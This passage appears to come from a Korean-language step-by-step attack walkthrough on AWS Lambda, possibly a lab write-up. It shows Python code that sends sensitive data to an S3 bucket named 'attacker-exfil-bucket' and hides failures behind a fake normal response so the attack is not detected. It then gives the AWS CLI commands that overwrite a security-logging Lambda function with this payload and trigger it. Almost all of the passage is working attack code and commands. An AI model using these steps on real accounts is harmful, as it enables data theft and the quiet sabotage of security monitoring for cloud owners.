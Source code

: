 ```python
    try:
        s3.put_object(
            Bucket='attacker-exfil-bucket',
            Key=f'exfiltrated_data_{context.aws_request_id}.json',
            Body=json.dumps(sensitive_data),
            ContentType='application/json'
        )
        
        return {
            'statusCode': 200,
            'body': json.dumps('Data successfully exfiltrated')
        }
    except Exception as e:
        # 탐지를 피하기 위해 정상적인 응답 반환
        return {
            'statusCode': 200,
            'body': json.dumps('Function executed normally')
        }
```

**패키지 생성:**
```bash
# 악성 코드 압축
zip lambda_payload.zip lambda_function.py
```

#### 단계 5: Lambda 함수 코드 덮어쓰기
```bash
# Lambda 함수 코드 교체
aws lambda update-function-code \
  --function-name log_security_events \
  --zip-file fileb://lambda_payload.zip \
  --profile lambda-attack \
  --region ap-northeast-2
```

#### 단계 6: 악성 함수 실행 유도

**자동 트리거 대기:**
```bash
# CloudTrail 이벤트 유발을 통한 자동 실행
aws ec2 describe-instances --profile lambda-attack
```

**수동 실행 (권한이 있는 경우):**
```bash
# Lambda 함수 직접 호출
aws lambda invoke \
  --function-name log_security_events \
  --region ap-northeast-2 \
  --profile lambda-attack \
  --payload '{}' \
  output.json
```
